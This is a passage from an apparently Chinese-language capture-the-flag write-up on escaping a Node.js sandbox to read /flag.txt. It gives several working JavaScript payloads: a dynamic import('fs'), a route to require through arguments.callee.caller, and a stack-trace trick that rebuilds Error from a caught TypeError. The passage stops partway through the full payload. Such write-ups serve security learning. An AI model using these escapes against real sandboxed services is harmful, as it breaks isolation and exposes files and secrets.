 但是`import`还可以动态引入（作者忽略了

```js
import('fs').then(fs=>fs.readFile('/flag.txt','utf-8',(err,data)=>{console.log(data,err)}));
```

预期则是这样

```js
(function(){return arguments.callee.caller.arguments[1]("fs").readFileSync("/flag.txt","utf-8")})()
```

随便一个函数，`arguments.callee`得到当前执行的函数，`arguments.callee.caller`得到调用它的函数，再通过`arguments[1]`获得到`require`这个参数，执行`require("fs")`以及后续操作

————这里还有一个方法2：

利用Node可以拿到`structured Stack Trace`的feature

```js
function CustomError() {
  const oldStackTrace = Error.prepareStackTrace
  try {
    Error.prepareStackTrace = (err, structuredStackTrace) => structuredStackTrace
    Error.captureStackTrace(this)
    this.stack
  } finally {
    Error.prepareStackTrace = oldStackTrace
  }
}
function trigger() {
  const err = new CustomError()
  for (const x of err.stack) {
    console.log(x.getFunction()+"")
  }
}
trigger()
```

我们可以用`x.getFunction()`拿到上层的function，就是Node在执行时加上的wrapper，再通过`arguments`得到`fn.arguments[1]`（也就是`require`

放到题目中由于没有`Error`可以用，我们直接自制一个TypeError

```js
try {
	null.f()
} catch (e) {
	TypeError = e.constructor
}
Error = TypeError.prototype.__proto__.constructor
```

再利用TypeError是继承自Error的特性，就可以不依靠global拿到Error constructor了

全payload

```js
try {
	null.f()
} catch (e) {
	TypeError = e.constructor
}
Object = {}.constructor
String = ''.constructor
Error = TypeError.prototype.__proto__.constructor
function CustomError() {
	const oldStackTrace = Error.prepareStackTrace
	try {
		Error.prepareStackTrace = (err, structuredStackTrace) => structuredStackTrace
		Error.captureStackTrace(this)
```